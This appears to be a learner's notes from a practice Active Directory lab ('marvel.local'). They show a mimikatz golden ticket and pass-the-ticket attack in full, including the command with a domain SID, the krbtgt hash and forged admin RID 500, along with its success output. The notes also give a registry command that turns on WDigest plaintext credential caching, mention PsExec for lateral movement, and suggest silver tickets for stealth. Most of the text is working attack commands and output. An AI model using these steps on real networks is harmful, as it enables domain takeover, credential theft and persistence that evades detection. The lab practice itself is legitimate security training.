

Going to use Golden ticket attack and a pass the ticket attack as well.
With the kerberos ticket granting ticket we can request access to any resource or system on the domain.
We need to copy the SID of domain and NTLM of the kebtgt

We can put a fake user and id 500 stands for your RID which is the id used for the admin account


We have taken it one step further and used the PsExec tool to access the punisher computer from the domain controller.


mimikatz #
kerberos::golden /User:FakeUser /domain:marvel.local /sid:S-1-5-21-1232359821-2011282127-2883546489 /krbtgt:5dbde4a7fe0e1cced076a9a3ff2128ad /id:500 /ptt
Domain : MARVEL / S-1-5-21-1232359821-2011282127-2883546489
NTLM : 5dbde4a7fe0e1cced076a9a3ff2128ad
mimikatz # kerberos::golden /User:FakeUser /domain:marvel.local /sid:S-1-5-21-1232359821-2011282127-2883546489 /krbtgt:5dbde4a7fe0e1cced076a9a3ff2128ad /id:500 /ptt
User : FakeUser
Domain : marvel.local (MARVEL)
SID : S-1-5-21-1232359821-2011282127-2883546489
User Id : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5dbde4a7fe0e1cced076a9a3ff2128ad - rc4_hmac_nt
Lifetime : 30-07-2023 02:55:50 ; 27-07-2033 02:55:50 ; 27-07-2033 02:55:50
-> Ticket : ** Pass The Ticket **
* PAC generated
* PAC signed
* EncTicketPart generated
* EncTicketPart encrypted
* KrbCred generated
Golden ticket for 'FakeUser @ marvel.local' successfully submitted for current session
mimikatz #
wdigest :
* Username : Administrator
* Domain : MARVEL
* Password : (null)
PS C:\Users\Administrator> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
If Golden ticket gets picked up and want to get stealther than look into the what a silver ticket is
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets